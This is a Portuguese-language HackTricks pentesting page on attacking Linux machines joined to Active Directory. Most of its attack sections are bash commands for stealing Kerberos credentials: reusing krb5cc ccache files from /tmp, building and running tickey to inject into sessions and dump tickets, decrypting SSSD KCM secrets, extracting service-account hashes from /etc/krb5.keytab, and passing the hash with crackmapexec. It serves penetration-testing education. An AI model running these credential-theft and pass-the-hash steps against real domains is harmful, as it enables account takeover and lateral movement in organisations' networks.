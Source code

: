 # Linux Active Directory

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% embed url="https://websec.nl/" %}

Uma máquina linux também pode estar presente em um ambiente Active Directory.

Uma máquina linux em um AD pode estar **armazenando diferentes tickets CCACHE dentro de arquivos. Esses tickets podem ser usados e abusados como qualquer outro ticket kerberos**. Para ler esses tickets, você precisará ser o usuário proprietário do ticket ou **root** dentro da máquina.

## Enumeração

### Enumeração de AD a partir do linux

Se você tiver acesso a um AD no linux (ou bash no Windows), pode tentar [https://github.com/lefayjey/linWinPwn](https://github.com/lefayjey/linWinPwn) para enumerar o AD.

Você também pode verificar a seguinte página para aprender **outras maneiras de enumerar AD a partir do linux**:

{% content-ref url="../../network-services-pentesting/pentesting-ldap.md" %}
[pentesting-ldap.md](../../network-services-pentesting/pentesting-ldap.md)
{% endcontent-ref %}

### FreeIPA

FreeIPA é uma **alternativa** de código aberto ao **Active Directory** da Microsoft, principalmente para ambientes **Unix**. Ele combina um **diretório LDAP** completo com um Centro de Distribuição de Chaves **Kerberos** MIT para gerenciamento semelhante ao Active Directory. Utilizando o **Sistema de Certificados** Dogtag para gerenciamento de certificados CA & RA, suporta autenticação **multifatorial**, incluindo cartões inteligentes. O SSSD está integrado para processos de autenticação Unix. Saiba mais sobre isso em:

{% content-ref url="../freeipa-pentesting.md" %}
[freeipa-pentesting.md](../freeipa-pentesting.md)
{% endcontent-ref %}

## Brincando com tickets

### Pass The Ticket

Nesta página, você encontrará diferentes lugares onde pode **encontrar tickets kerberos dentro de um host linux**, na página seguinte você pode aprender como transformar esses formatos de tickets CCache para Kirbi (o formato que você precisa usar no Windows) e também como realizar um ataque PTT:

{% content-ref url="../../windows-hardening/active-directory-methodology/pass-the-ticket.md" %}
[pass-the-ticket.md](../../windows-hardening/active-directory-methodology/pass-the-ticket.md)
{% endcontent-ref %}

### Reutilização de ticket CCACHE de /tmp

Os arquivos CCACHE são formatos binários para **armazenar credenciais Kerberos** e geralmente são armazenados com permissões 600 em `/tmp`. Esses arquivos podem ser identificados pelo seu **formato de nome, `krb5cc_%{uid}`,** correlacionando ao UID do usuário. Para verificação do ticket de autenticação, a **variável de ambiente `KRB5CCNAME`** deve ser definida para o caminho do arquivo de ticket desejado, permitindo sua reutilização.

Liste o ticket atual usado para autenticação com `env | grep KRB5CCNAME`. O formato é portátil e o ticket pode ser **reutilizado definindo a variável de ambiente** com `export KRB5CCNAME=/tmp/ticket.ccache`. O formato do nome do ticket Kerberos é `krb5cc_%{uid}` onde uid é o UID do usuário.
```bash
# Find tickets
ls /tmp/ | grep krb5cc
krb5cc_1000

# Prepare to use it
export KRB5CCNAME=/tmp/krb5cc_1000
```
### Reutilização de tickets CCACHE do keyring

**Tickets Kerberos armazenados na memória de um processo podem ser extraídos**, particularmente quando a proteção ptrace da máquina está desativada (`/proc/sys/kernel/yama/ptrace_scope`). Uma ferramenta útil para esse propósito pode ser encontrada em [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey), que facilita a extração injetando em sessões e despejando tickets em `/tmp`.

Para configurar e usar esta ferramenta, os passos abaixo são seguidos:
```bash
git clone https://github.com/TarlogicSecurity/tickey
cd tickey/tickey
make CONF=Release
/tmp/tickey -i
```
Este procedimento tentará injetar em várias sessões, indicando sucesso ao armazenar os tickets extraídos em `/tmp` com uma convenção de nomenclatura de `__krb_UID.ccache`.

### Reutilização de tickets CCACHE do SSSD KCM

O SSSD mantém uma cópia do banco de dados no caminho `/var/lib/sss/secrets/secrets.ldb`. A chave correspondente é armazenada como um arquivo oculto no caminho `/var/lib/sss/secrets/.secrets.mkey`. Por padrão, a chave só é legível se você tiver permissões de **root**.

Invocar \*\*`SSSDKCMExtractor` \*\* com os parâmetros --database e --key irá analisar o banco de dados e **descriptografar os segredos**.
```bash
git clone https://github.com/fireeye/SSSDKCMExtractor
python3 SSSDKCMExtractor.py --database secrets.ldb --key secrets.mkey
```
O **blob de cache de credenciais Kerberos pode ser convertido em um arquivo Kerberos CCache utilizável** que pode ser passado para Mimikatz/Rubeus.

### Reutilização de ticket CCACHE a partir de keytab
```bash
git clone https://github.com/its-a-feature/KeytabParser
python KeytabParser.py /etc/krb5.keytab
klist -k /etc/krb5.keytab
```
### Extrair contas do /etc/krb5.keytab

As chaves de contas de serviço, essenciais para serviços que operam com privilégios de root, são armazenadas de forma segura nos arquivos **`/etc/krb5.keytab`**. Essas chaves, semelhantes a senhas para serviços, exigem estrita confidencialidade.

Para inspecionar o conteúdo do arquivo keytab, **`klist`** pode ser empregado. A ferramenta é projetada para exibir detalhes da chave, incluindo o **NT Hash** para autenticação de usuários, particularmente quando o tipo de chave é identificado como 23.
```bash
klist.exe -t -K -e -k FILE:C:/Path/to/your/krb5.keytab
# Output includes service principal details and the NT Hash
```
Para usuários do Linux, **`KeyTabExtract`** oferece funcionalidade para extrair o hash RC4 HMAC, que pode ser utilizado para reutilização do hash NTLM.
```bash
python3 keytabextract.py krb5.keytab
# Expected output varies based on hash availability
```
No macOS, **`bifrost`** serve como uma ferramenta para análise de arquivos keytab.
```bash
./bifrost -action dump -source keytab -path /path/to/your/file
```
Utilizando as informações de conta e hash extraídas, conexões com servidores podem ser estabelecidas usando ferramentas como **`crackmapexec`**.
```bash
crackmapexec 10.XXX.XXX.XXX -u 'ServiceAccount$' -H "HashPlaceholder" -d "YourDOMAIN"
```
## Referências

* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory)

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}
